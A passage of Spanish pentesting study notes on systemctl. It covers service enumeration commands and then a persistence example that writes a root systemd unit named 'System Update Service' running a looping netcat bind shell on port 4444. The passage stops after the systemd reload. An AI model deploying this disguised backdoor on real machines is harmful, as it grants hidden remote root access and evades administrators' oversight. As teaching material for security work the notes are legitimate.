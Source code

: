 ### 4. Hardening defensivo

Para asegurar sistemas deshabilitando servicios innecesarios y monitoreando estados.

---

## 💻 Ejemplos Prácticos

### Ejemplo 1: Enumeración completa del sistema para pentesting

```bash
# Ver todos los servicios y su estado
systemctl list-units --type=service --all

# Identificar servicios en ejecución que podrían ser vulnerables
systemctl list-units --type=service --state=active | grep -E "(ssh|http|ftp|mysql|apache|nginx)"

# Ver servicios habilitados para arranque (persistencia)
systemctl list-unit-files --type=service --state=enabled

# Buscar servicios personalizados o sospechosos
systemctl list-units --type=service | grep -v -E "(systemd|dbus|network|cron|log)"
```

> [!info] Explicación
> Este conjunto de comandos es ideal para la fase de enumeración en pentesting:
> 1. **Primer comando**: Lista todos los servicios del sistema con su estado actual
> 2. **Segundo comando**: Filtra servicios comunes que suelen tener vulnerabilidades conocidas
> 3. **Tercer comando**: Identifica qué servicios se inician automáticamente (importante para persistencia)
> 4. **Cuarto comando**: Busca servicios no estándar que podrían ser backdoors o aplicaciones personalizadas
> 
> **Información valiosa que obtienes:**
> - Servicios vulnerables a explotar
> - Aplicaciones web en ejecución
> - Servicios de bases de datos
> - Posibles backdoors o servicios customizados

### Ejemplo 2: Creación de persistencia mediante servicio malicioso

```bash
# Crear archivo de servicio malicioso
sudo tee /etc/systemd/system/system-update.service > /dev/null <<EOF
[Unit]
Description=System Update Service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'while true; do nc -l -p 4444 -e /bin/bash; sleep 5; done'
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
EOF

# Recargar systemd para reconocer el nuevo servicio
sudo systemctl daemon-reload

```